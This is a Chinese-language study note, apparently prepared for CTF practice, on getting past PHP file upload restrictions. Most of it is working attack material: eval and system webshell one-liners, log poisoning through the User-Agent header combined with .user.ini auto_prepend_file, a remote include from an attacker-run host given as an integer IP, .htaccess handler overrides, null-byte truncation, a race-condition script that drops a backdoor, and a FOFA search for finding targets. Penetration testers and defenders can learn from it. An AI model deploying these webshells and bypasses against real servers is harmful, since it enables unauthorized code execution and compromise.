

## 绕过过滤

**过滤了<?php**

​	`<?=eval($_POST[x]);?>`

​	`<?=system('tac ../fi*');?>`

**过滤了括号**

使用反引号运算符的效果与函数shell_exec()相同

```
<?=`tac ../f*`?>
```

**如果过滤得更严重**

包含一个日志文件

比如中间件Nginx，日志文件的位置是由中间件决定的，查一下

日志文件会记录UA头，在UA头写后门代码

```
.user.ini: auto_prepend_file=1.png
1.png: <?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

上传1.png和.user.ini


发现日志文件中有UA头，抓个包：


在UA信息里面写入后门代码，随便写一个地址，访问

发现有一个没信息，因为后门代码被执行了：


这样访问一下


**.()[]都被过滤**

`.user.ini`:
Auto_prepend_file=png （这个png只是个文件名，换成xxx也可以）
Fliename="png"
GIF89a
`<?=include'http://794750069'?>`
这一串数字是ip转int转来的，在自己服务器上搭建一个网页，访问这个ip就会访问到
Index.php   index.php中写有后门代码`<?php eval($_POST[x]);?>`


## 前端JS校验

通过前端JS只限制jpg、png可以，那么可以先改名为png后缀，抓住包之后改成php后缀

## 文件头检测

通过检测文件头来判断是什么文件

比如只能上传gif，网站会检测文件头是不是GIF89A

上传png，抓个包 修改：


因为过滤空格 所以换行

然后上传png了


还是在UA那里写上后门代码


## .htaccess

.htaccess是web服务器的配置，是 Apache 特有的一个功能

如果.htaccess文件的内容是：

```
AddType application/x-httpd-php .png
```

意思是：让.png文件当做类型为application/x-httpd-php（即php文件）执行

`.htaccess` 文件的内容**不仅**生效于它所在的目录，**还会递归地影响到该目录下的所有子目录**。


## .user.ini

**`.user.ini`** 并不是 Nginx 的配置文件，而是 **PHP 的配置文件**。它让 PHP-FPM（Nginx 通常用来处理 PHP 的进程管理器）可以在每个目录下覆盖一些特定的 PHP 配置指令。

**`auto_prepend_file` 配置项**：这是一个 PHP 配置指令，它的作用是**在执行任何 PHP 脚本之前，自动包含指定的文件**。

在文件上传中的利用方法是：

上传的1.png中有PHP一句话：`<?php eval($_POST[x])?>`

上传`.user.ini`中写：`auto_prepend_file=1.png`

访问`index.php`使`.user.ini`生效

### 关于.user.ini的文件上传漏洞

假设你的网站目录结构如下：

```
/var/www/html/
├── .user.ini
├── index.php
└── images/
    └── upload.php
```

.user.ini 的内容是： `auto_prepend_file=1.png`

- 当用户访问 `http://example.com/index.php` 时，`index.php` 在执行前会先加载并执行 `1.png` 里的恶意代码。
- 当用户访问 `http://example.com/images/upload.php` 时，`upload.php` 在执行前**同样会**先加载并执行 `/var/www/html/.user.ini` 里指定的 `1.png` 文件。

在使用 `.user.ini` 进行文件上传攻击时，攻击者**需要满足以下条件：**

1. **文件上传漏洞**：能够成功上传一个恶意文件（比如伪装成图片的 `1.png`）。
2. **`.user.ini` 可写**：能够成功上传或修改目标目录下的 `.user.ini` 文件。
3. **目标目录有可执行的 PHP 脚本**：只要目标目录下**有任何**一个 PHP 脚本（比如 `index.php`、`about.php`、`login.php` 等），当用户访问这个脚本时，**恶意代码就会被触发**。**并不局限于 `index.php`**。

但是：

`.user.ini` 文件的生效取决于服务器的 PHP 配置。如果服务器管理员特意禁用了这项功能，那么即使你成功上传了 `.user.ini` 文件，它也不会被 PHP 解释器读取和执行。

`user_ini.filename`这个指令决定了PHP会在每个目录下查找那个文件来作为本地配置文件，默认值是`.user.ini`，如果管理员将其设置“”，PHP 就会完全禁用这个功能

`user_ini.cache_ttl`：这个指令决定了 PHP 重新读取 `.user.ini` 文件的频率（以秒为单位）


## %00截断

条件：

1、magic_quote_gpc = off

2、php < 5.3.4

原理：

%00 是 URL 编码中的空字节（null byte），对应 ASCII 码中的 \0 字符。在某些编程语言（如 C/C++ 或早期 PHP）中，空字节被用作字符串的结束标志。后端php在处理字符串时遇见%00会认为字符串已经结束，因此，shell.php%00.jpg 在处理时被截断为 shell.php，而后缀 .jpg 被忽略。

服务器检查文件后缀，shell.php%00.jpg 表面符合规则，因此通过检查。

文件保存时，实际存储为shell.php，因为后面被%00 (/0) 截断

攻击者访问shell.php，触发代码


如果路径在下面，那需要把%00进行url解码


为什么%00在URL中不需要解码，而如果是post，则需要解码一次？

因为URL中会自动解码一次，而请求体中不会，需要手动解码一次


## 条件竞争

下面代码先上传，后判断是否合法


这就需要用到“访问即创建”的代码：

shell.php的代码：

```
<?php
fputs(fopen('xiao.php', 'w'), '<?php eval($_REQUEST[1]);?>');
?>
```

先上传`shell.php`然后抓到包，把包放到intruder


开始之后就会一直循环访问（文件上传后的地址一直在被访问）

然后我们上传一个文件然后抓包：


也和之前一样，放到intruder里面持续不断地进行上传

然后我们去页面去一直访问文件，最后能访问到：


就是说不断上传，不断访问，访问到了就会创建一个xiao.php


## 二次渲染

判断：

1、判断上传前后文件大小

2、判断上传后的文件返回数据包的内容

手工绕过：

010editor可以对比前后两个文件，要在两个文件中相同的地方写一句话木马

脚本绕过：

https://blog.csdn.net/qq_40800734/article/details/105920149

**关于png的二次渲染绕过：**

本地127.0.0.1有一个code.php 访问就会生成1.png

木马的内容是`<?$_GET[0]($_POST[1]);?>`

get传参` 0=system` post传参`1=ls ../` `1=tac flag.php`

前提是能执行png中的php

**关于jpg的二次渲染绕过：**

脚本在D:\phpStudy\PHPTutorial\php\php-5.2.17>  jpg.php

脚本中的后门代码要根据需要修改



生成了payload_image.jpg


## move_uploaded_file函数的缺陷

条件：用到move_uploaded_file函数且保存的文件名由我们来定（保存文件名可控）

上传有一句话木马的shell.jpg，然后把文件的名字改成shell.php/.   


## Apache HTTPD 换行解析漏洞

1、2.4.0到2.4.29

2、有文件上传

3、需要能重命名上传后文件

条件很苛刻

`1.php\x0A`会被解析为php

具体操作：https://blog.csdn.net/qq_32393893/article/details/132217259

访问的时候要访问：1.php%0A

**`\x0A` 是换行符（LF）的十六进制表示，而 `%0A` 是它在 URL 编码中的形式。** 因为 HTTP 请求是通过 URL 发送的，所以必须使用 URL 编码（即 `%0A`）来传递特殊字符（如换行符），而 `\x0A` 是代码中的写法。

## Nginx 文件名逻辑漏洞

nginx 0.8.41~1.4.3 1.5.0~1.5.7

https://www.cnblogs.com/Junglezt/p/18119782


## 编码还原

一些网站是通过字节流把图片接收过来然后编码保存，需要读取图片的时候再解码

这个编码常见的就是base64

为什么多此一举进行base64编码呢？是因为图片内容中可能有特殊符号、换行等等，这样编码可以保持为一个整体

fofa语法：

```
"data:image/jpeg;base64" && country="CN"
```


处理的代码：


从上面浏览器中的图片也可以看出，这种图片读取是遵守固定协议的，它的开头都是：data:image/png;base64;然后接base64值

所以你传php等东西都是没用的，它一律按图片解析


上传之后访问403 就是没有执行权限

文件一访问就下载 很大可能就是OSS存储